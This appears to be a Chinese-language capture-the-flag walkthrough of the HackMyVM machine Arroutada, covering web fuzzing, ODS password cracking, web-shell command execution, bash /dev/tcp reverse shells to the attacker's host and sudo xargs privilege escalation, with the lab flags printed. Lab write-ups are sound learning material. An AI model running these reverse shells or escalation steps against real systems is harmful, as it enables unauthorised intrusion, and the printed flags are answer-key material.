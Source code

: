 # Arroutada

2025.02.20 https://hackmyvm.eu/machines/machine.php?vm=Arroutada

[video](https://www.bilibili.com/video/BV1pPAHehEvx/?spm_id_from=333.1387.upload.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
80/tcp open  http
```

扫描后 http://192.168.5.39/scout/ 提示有一个路径 `/scout/******/docs/` 先用 seclists 的字典 ffuf 进行探测：

```
ffuf -t 100 -ac -c -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://192.168.5.39/scout/FUZZ/docs

http://192.168.5.39/scout/j2/docs/
```

找到路径，发现 http://192.168.5.39/scout/j2/docs/pass.txt 中显示 user:password ，另外一个路径 http://192.168.5.39/scout/j2/docs/shellfile.ods 下载后查看文件类型 shellfile.ods: OpenDocument Spreadsheet 用 olevba 查看没有宏代码，在线打开 ods 文件需要输入密码，输入 user:password 显示密码不对，可能这个是个密码的格式，需要自己构建字典。

在同列表中 http://192.168.5.39/scout/j2/docs/z206 中有内容：

```
Ignore z*, please
Jabatito
```

发现了一个用户名 Jabatito，同时上面的 `z*` 可能是提示密码不是 z 开头。

尝试使用 john + rockyou 破解 ods 文件密码：

```
libreoffice2john shellfile.ods > hash
```

找到密码: john11 浏览 ods 文件得到新的路径: /thejabasshell.php 访问后什么都没有，进行参数探测：

```
ffuf -t 100 -ac -c -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://192.168.5.39/thejabasshell.php?FUZZ=/etc/passwd
```

找到参数 a 访问 http://192.168.5.39/thejabasshell.php?a=1 提示 Error: Problem with parameter "b" 好像还有另外一个参数 b 需要提供内容，继续 fuzz：

```
ffuf -t 100 -ac -c -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u 'http://192.168.5.39/thejabasshell.php?a=1&b=FUZZ'
```

找到 b 的值为 pass 然后访问 curl 'http://192.168.5.39/thejabasshell.php?a=id&b=pass' 返回 www-data 可以执行命令，反弹到 kali，得到了 shell：

```
curl -G --data-urlencode 'b=pass' --data-urlencode 'a=/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' http://192.168.5.39/thejabasshell.php
```

进行系统枚举，发现 crontab：

```
* * * * * drito /home/drito/service
```

但是没权限读取

发现 127.0.0.1 处有一个 8000 的 web 服务，nc 访问下首页：

```
<h1>Service under maintenance</h1>


<br>


<h6>This site is from ++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>---.+++++++++++..<<++.>++.>-----------.++.++++++++.<+++++.>++++++++++++++.<+++++++++.---------.<.>>-----------------.-------.++.++++++++.------.+++++++++++++.+.<<+..</h6>

<!-- Please sanitize /priv.php -->
```

Brainfuck 解码：all HackMyVM hackers!!

访问 http://127.0.0.1:8000/priv.php 看看，源码中显示：

```
/*

$json = file_get_contents('php://input');
$data = json_decode($json, true);

if (isset($data['command'])) {
    system($data['command']);
} else {
    echo 'Error: the "command" parameter is not specified in the request body.';
}

*/
```

可以命令执行，使用 json 传递命令，目标机器上没有 curl，使用 wget 进行传递：

```
wget -q -O- --post-data '{"command":"/bin/bash -c \"/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1\""}' --header "content-type: application/json" http://127.0.0.1:8000/priv.php
```

kali 上得到了反弹的连接，拿到了 user flag：

```
drito@arroutada:~$ cat user.txt
785f64437c6e1f9af6aa1afcc91ed27c
```

sudo -l 显示 (ALL : ALL) NOPASSWD: /usr/bin/xargs 可以直接提权到 root：

```
sudo xargs -a /dev/null sh

# cat root.txt
R3VuYXhmR2JGenlOYXFOeXlVbnB4WmxJWg==
```

base64 和 rot13 后解出 root flag ： ThanksToSmlAndAllHackMyVM
